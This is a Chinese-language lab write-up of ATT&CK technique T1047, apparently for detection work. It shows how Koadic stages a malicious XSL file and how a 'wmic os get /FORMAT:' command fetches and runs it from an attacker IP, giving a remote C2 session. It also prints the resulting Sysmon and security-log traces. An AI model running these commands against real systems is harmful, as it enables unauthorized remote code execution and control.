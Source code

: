 # T1047-win-基于白名单WMIC执行payload

## 来自ATT&CK的描述

WMI（Windows Management Instrumentation）是Windows管理功能，它为本地和远程访问windows系统组件提供了统一的环境。它依赖WMI服务来进行本地和远程访问，以及SMB（服务器消息块）和RPCS（远程过程调用服务）来进行远程访问。RPCS通过端口135运行。

攻击者可能会使用WMI与本地和远程系统交互，也可能使用WMI来将执行许多策略功能，例如为发现收集信息和远程执行文件来横向移动。

## 测试案例

WMIC扩展WMI（Windows Management Instrumentation，Windows管理工具），提供了从命令行接口和批命令脚本执行系统管理的支持。在WMIC出现之前，如果要管理WMI系统，必须使用一些专门的WMI应用，例如SMS，或者使用WMI的脚本编程API，或者使用象CIM Studio之类的工具。如果不熟悉C++之类的编程语言或VBScript之类的脚本语言，或者不掌握WMI名称空间的基本知识，要用WMI管理系统是很困难的。WMIC改变了这种情况。

说明：Wmic.exe所在路径已被系统添加PATH环境变量中，因此，Wmic命令可识别，需注意x86，x64位的Wmic调用。

Windows 2003 默认位置：

```dos
C:\WINDOWS\system32\wbem\wmic.exe
C:\WINDOWS\SysWOW64\wbem\wmic.exe
```

Windows 7 默认位置：

```dos
C:\Windows\System32\wbem\WMIC.exe
C:\Windows\SysWOW64\wbem\WMIC.exe
```

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### Koadic

通过Koadic发起Wmic.exe攻击

koadic是一个命令控制（C2）工具，类似Metasploit和Powershell Empire。使用koadic我们生成恶意XSL文件。koadic安装完成后，您可以运行./koadic 文件以启动 koadic，然后通过运行以下命令开始加载stager/js/wmic 程序，并将 SRVHOST 设置为程序回连IP。

```bash
git clone https://github.com/zerosum0x0/koadic.git  #安装命令
cd koadic
pip3 install -r requirements.txt
```

```bash
#加载载荷
./koadic
(koadic: sta/js/mshta)# use stager/js/wmic
(koadic: sta/js/wmic)# set SRVHOST 192.168.126.146
[+] SRVHOST => 192.168.126.146
(koadic: sta/js/wmic)# run
[+] Spawned a stager at http://192.168.126.146:9996/6G69i.xsl
[>] wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

#### 靶机执行payload

执行 WMIC 以下命令，从远程服务器下载和运行恶意XSL文件：

```cmd
wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
```

靶机测试结果

```dos
C:\Users\12306Br0>wmic os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"
  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"12306BR0-PCroot\cimv2roo
t\cliIMPERSONATEPKTPRIVACYms_804ENABLEOFFN/AOFFOFFSTDOUTSTDOUTN/AON\Device\Hardd
iskVolume17601Multiprocessor FreeMicrosoft Windows 7 旗舰版 93686Win32_Operating
SystemWin32_ComputerSystemService Pack 112306BR0-PC480TRUETRUETRUE2FALSEFALSE256
29608362009844309911620200305144428.000000+48020200305151330.500000+480202004171
72815.995000+4800804Microsoft Corporation-18589934464zh-CNMicrosoft Windows 7 旗
舰版 |C:\Windows|\Device\Harddisk0\Partition2422164-bit205225618TRUE112306Br0004
26-292-0000007-85792102343416OK272\Device\HarddiskVolume2C:\Windows\system32C:44
4004820966326.1.7601C:\Windows
```

#### 反弹shell

一旦恶意的XSL文件在目标计算机上执行，你将有一个僵尸连接，就像Metasploit回连的情况一样。

```bash
[+] Zombie 0: Staging new connection (192.168.126.149) on Stager 0
[+] Zombie 0: 12306Br0-PC\12306Br0 @ 12306BR0-PC -- Windows 7 Ultimate
[!] Zombie 0: Timed out.
[+] Zombie 0: Re-connected.
(koadic: sta/js/wmic)# zombies 0

        ID:                     0
        Status:                 Alive
        First Seen:             2020-04-17 17:28:31
        Last Seen:              2020-04-17 17:29:04
        Listener:               0

        IP:                     192.168.126.149
        User:                   12306Br0-PC\12306Br0
        Hostname:               12306BR0-PC
        Primary DC:             Unknown
        OS:                     Windows 7 Ultimate
        OSBuild:                7601
        OSArch:                 64
        Elevated:               No

        User Agent:             Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0)
        Session Key:            02149f1202e3437ab7932672c0c9e6b5

        JOB  NAME                            STATUS    ERRNO
        ---- ---------                       -------   -------
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Image: C:\Windows\System32\wbem\WMIC.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: WMI Commandline Utility
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName: wmic.exe
CommandLine: wmic  os get /FORMAT:"http://192.168.126.146:9996/6G69i.xsl"

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x888
新进程名: 'C:\Windows\System32\wbem\WMIC.exe'
```

## 检测规则/思路

无具体检测。

## 参考推荐

MITRE-ATT&CK-T1047:<https://attack.mitre.org/techniques/T1047/>

windows下基于白名单获取shell的方法整理（上）:<http://www.safe6.cn/article/155>
